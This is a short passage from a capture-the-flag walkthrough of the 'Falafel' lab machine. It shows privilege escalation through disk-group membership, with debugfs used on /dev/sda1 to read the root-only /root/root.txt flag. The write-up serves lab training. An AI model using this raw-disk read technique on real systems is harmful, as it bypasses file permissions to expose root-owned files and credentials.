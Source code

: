 
##################


`su yossi`


##################

```

yossi@falafel:~$ id
uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)

```

Revisit the website that goes through exploiting certain groups for privilege escalation.

![diskgroup](/assets/img/falafel/fl-diskgroup.png)


```

yossi@falafel:~$ ls /dev/sda*
/dev/sda  /dev/sda1  /dev/sda2  /dev/sda5

```

use the `debugfs` command to get the root flag.

```

yossi@falafel:~$ debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
debugfs:  cd /root
debugfs:  ls
debugfs:  cat /root/root.txt
23xxxxxxxxxxxxxxxxxxxxxxxxxxxxa1
debugfs:  

```


:)


